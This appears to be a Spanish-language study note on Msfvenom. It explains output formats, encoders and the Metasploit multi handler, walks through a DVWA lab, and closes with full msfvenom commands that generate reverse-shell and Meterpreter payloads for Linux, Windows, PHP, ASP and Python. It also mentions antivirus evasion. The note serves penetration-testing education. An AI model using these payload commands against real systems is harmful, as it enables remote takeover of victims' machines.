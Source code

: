 ```yaml
---
layout: apunte
title: "6. Msfvenom"
---
```


Msfvenom reemplazó a Msfpayload y Msfencode y te permite generar payloads. Msfvenom te permite acceder a todos los payloads disponibles en el framework de Metasploit. Te permite crear payloads en diferentes formatos (PHP, exe, dll, elf, etc.) y para varios diferentes sistemas (Apple, Windows, Android, Linux, etc.).

------------------------
<h2>Formatos de salida</h2>
Puedes generar un ejecutable para meterpreter o un archivo crudo, como python. El comando `msfvenom --list formats` puede ser usado para listar formatos de salida soportados.

---------------------
<h2>Encoders</h2>
Contrario a lo que algunos piensan, los encoders no tratan de sobrepasar antivirus instalados. Efectivamente codifican el payload, pero más al ojo humano que a una máquina. Una práctica más robusta para evitar antivirus sería usar técnicas modernas de ofuscación o inyectar código shell. Para encodear debemos usar el parámetro `-e`, por ejemplo:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

- `-p`: Especifica el tipo de payload.
- `-f`: Especifica el formato, en este caso `raw`, lo que significa que no contendrá headers ni formateo.
- `-e`: Especifica que el payload deberá ser encodeado.

------------------------
<h2>Handlers</h2>
Similar a los exploits generando una reverse shell, necesitarás ser capaz de aceptar conexiones entrantes generadas por el payload de Msfvenom. Al usar un módulo de explotación todo esto es manejado automáticamente. El término usado para recibir una conexión es "catching shell".

Explotaremos una vulnerabilidad presente en DVWA (Damn Vulnerable Web Application), los pasos son:

1. Generar una shell PHP usando MSFvenom.
2. Lanzar el handler de Metasploit.
3. Ejecutar la shell PHP.

>[!NOTE] El PHP de salida no tendrá el tag de php inicial ni final, hay que editarlo para que sea válido.

Para usar el multi handler, usaremos el módulo `use exploit/multi/handler`. El multi handler funciona para todos los payloads de Metasploit y puede ser usado para Meterpreter también.

Para usar el módulo, necesitaremos configurar el valor del payload (`php/reverse_php` en este caso), el LHOST y el LPORT.

--------------------
<h2>Otros payloads</h2>
Basándonos en la configuración del sistema objetivo, msfvenom puede usarse para crear payloads en casi todos los formatos:

<h5>Linux Executable and Linkable Format (elf)</h5>
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Es como el formato `.exe` en Windows.

<h5>Windows</h5>
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
<h5>PHP</h5>
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
<h5>ASP</h5>
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
<h5>Python</h5>
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`


Todos estos ejemplos son payloads reverse.